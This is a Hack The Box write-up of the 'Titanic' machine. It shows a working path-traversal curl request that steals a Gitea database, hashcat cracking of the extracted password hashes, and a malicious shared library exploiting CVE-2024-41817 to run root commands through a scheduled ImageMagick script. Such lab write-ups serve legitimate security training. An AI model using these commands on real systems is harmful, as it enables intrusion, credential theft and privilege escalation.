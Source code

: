 +++
title = "HTB - Titanic"
date = "2025-04-20"
author = "dax"
cover = ""
tags = ["flask", "gitea", "path-traversal", "hashcat", "magick", "CVE-2024-41817"]
keywords = ["hacking", "htb", "titanic", "hack the box"]
description = "Write-up of Hack The Box easy machine Titanic"
showFullContent = false
readingTime = true
hideComments = false
color = "green"
+++

# HTB - Titanic
## Enumeration:
Nmap
```bash
# Nmap 7.95 scan initiated Thu Apr 17 19:38:46 2025 as: /usr/lib/nmap/nmap -v -p - -Pn -T4 -A -oN nmaptcp titanic.htb
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 79E1E0A79A613646F473CFEDA9E231F1
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Aggressive OS guesses: Linux 4.15 - 5.19 (98%), Linux 5.0 - 5.14 (94%), Linux 3.2 - 4.14 (94%), Linux 4.15 (94%), Linux 2.6.32 - 3.10 (93%), Linux 5.0 (93%), OpenWrt 21.02 (Linux 5.4) (93%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (93%), Linux 2.6.32 (92%), Linux 5.10 - 5.15 (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 37.829 days (since Mon Mar 10 23:45:24 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   19.48 ms 10.10.14.1
2   19.94 ms titanic.htb (10.10.11.55)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 17 19:39:18 2025 -- 1 IP address (1 host up) scanned in 32.02 seconds
```

## User exploit

When visiting web port 80, we can see an application that allows us to book boat tickets. By brute forcing the `Host` header, we can also find a `dev.titanic.htb` subdomain. 

```bash
ffuf -u http://titanic.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.titanic.htb' -fs 300-350
```

The `dev` subdomain leads us to a `Gitea` server, which is a self-hosted Github like server. We are able to create an account and find two public repositories owned by the `developer` account. The first one, `flask-app`, contains the code of the boat ticket booking app. By looking at `app.py`, we can see a clear path traversal vulnerability in the `/download` endpoint. 

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

The second one, `docker-config`, contains `docker-compose.yml` files for both `Gitea` and `mysql`. While there are credentials in the `mysql` configuration, what we are actually looking for is the path where the data directory is mounted in the `Gitea` container. 

```yaml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Now, we can do a little bit of recon on the Gitea file system by running the container locally. The first thing that comes up when we are accessing the configuration page is the default path for the SQLite database, `/data/gitea/gitea.db`. 

```bash
# Start an instance of Gitea for recon
docker run -p 3000:3000 -d --rm gitea/gitea
```

![](/img/htb/titanic/gitea_configuration.png)

Armed with this information, we can now go to the app and exploit the path traversal vulnerability to recover the database. 

```bash
curl --path-as-is -s -H $'Host: titanic.htb' $'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/gitea.db' > gitea.db
```

In the `user` table, we can find the hashes for the `administrator` and `developer` users. However, they're not in a format that can be cracked by `hashcat` yet. We can use `Gitea To Hash Extractor` to convert them so that `hashcat` can crack them. The output format is `PBKDF2-HMAC-SHA256`, which is mode `10900`. 

```bash
python gitea_hash_extractor.py gitea.db
```

```batch
hashcat.exe -m 10900 titanic.hashes rockyou.txt
```

We successfully crack the hash for `developer`, which allows us to login using SSH and get the `user.txt` flag. 

## Root exploit

By doing some quick manual recon on the host, we can see a peculiar script in `/opt/scripts/identify_images.sh`. 

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

By having a look inside the `/opt/app/static/assets/images` directory, we can see that the `metadata.log` file is owned by `root` and is updated every minute. Additionally, the `magick` version installed (7.1.1-35) has a CVE (CVE-2024-41817) for an arbitrary code execution. These two findings combined allows us the elevate or privileges to the root user by crafting a malicious shared library containing a command to execute, placing it in the folder where `magick` is executed and waiting for the `root` user to start the script. There are multiple ways of getting the flag from there, but I did it in 2 steps: first I copied the flag out of `/root/`, and then I changed the permission for me to read it. 

CVE-2024-41817 exploits a vulnerability in the way the `AppImage` version of `ImageMagick` sets the `LD_LIBRARY_PATH` and `MAGICK_CONFIGURE_PATH` environment variables. When those environment variables are not set explicitly, an empty path is prepended (and appended), which might lead to `magick` loading the configuration file (delegates.xml) or shared libraries from the current working directory. 

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt /dev/shm/.dax/root.txt");
    exit(0);
}
EOF

cp /dev/shm/.dax/libxcb.so.1 /opt/app/static/assets/images

# Wait a minute for the script to execute...

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod 777 /dev/shm/.dax/root.txt");
    exit(0);
}
EOF

cp /dev/shm/.dax/libxcb.so.1 /opt/app/static/assets/images

# Wait another minute for the script to execute...

cat /dev/shm/.dax/root.txt
```

## Resources:

| Hyperlink                                                                          | Info                                                         |
| ---------------------------------------------------------------------------------- | ------------------------------------------------------------ |
| https://github.com/BhattJayD/giteatohashcat                                        | Gitea To Hash Extractor                                      |
| https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8 | Arbitrary Code Execution in `AppImage` version `ImageMagick` |
| https://github.com/go-gitea/gitea                                                  | Gitea                                                        |
| https://github.com/pallets/flask                                                   | Flask                                                        |
| https://github.com/hashcat/hashcat                                                 | hashcat                                                      |
